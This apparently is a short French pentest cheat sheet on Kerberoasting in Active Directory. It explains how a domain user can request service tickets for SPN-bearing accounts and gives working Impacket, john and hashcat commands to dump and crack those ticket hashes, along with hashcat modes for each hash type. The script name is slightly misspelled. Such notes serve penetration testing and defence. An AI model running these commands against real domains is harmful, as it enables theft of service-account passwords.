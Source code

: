 # Kerberoast

Un utilisateur de l’Active Directory peut demander un TGS pour n’importe quel service. Ainsi, un attaquant peut effectuer des demandes de TGS en indiquant des SPN arbitraires. S'ils existent, un ticket de service (TGS) sera obtenu. Celui-ci contiendra le mot de passe (sous forme de _hash_) du compte exécutant le service. L’attaquant peut, avec cette information, tenter de trouver le mot de passe en clair du compte via une attaque par brute force.

### Récupération des tickets TGS

```
GetUsersSPNs.py -request -dc-ip <IP-DC> <domain.local>/<USER> -outputfile impacket_TGS_<IP>.txt
```

Cette commande va recenser tous les comptes utilisateur (non machine) exécutant un service (attribut `ServicePrincipalName` non vide) pour émettre une demande de ticket TGS en leur nom. Ces tickets seront ensuite affichés.

Il n'est pas possible de réaliser de _Pass The Ticket_ avec les TGS.

### Cassage des _hashs_ obtenus

```
john --format=krb5tgs --wordlist=passwords_kerb.txt hashes.kerberoast
hashcat -m 13100 --force -a 0 hashes.kerberoast passwords_kerb.txt
```

Plusieurs format de hash peuvent être obtenu :

* $17 : AES128
* $18 : AES256 (-m 19700 sur hashcat, pas pris en compte par john)
* $23 : RC4-HMAC-MD5 (pris en compte par john)
